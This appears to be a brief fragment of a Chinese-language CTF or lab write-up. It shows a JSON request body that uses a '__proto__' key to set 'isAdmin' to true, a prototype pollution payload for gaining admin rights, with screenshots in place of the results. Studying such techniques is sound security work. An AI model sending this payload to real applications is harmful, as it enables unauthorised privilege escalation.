 需要isAdmin状态

![image-20250529200906034](assets/image-20250529200906034.png)

更新json

```json
{
  "settings": {
    "__proto__": {
      "isAdmin": true
    }
  }
}
```

![image-20250529201135401](assets/image-20250529201135401.png)
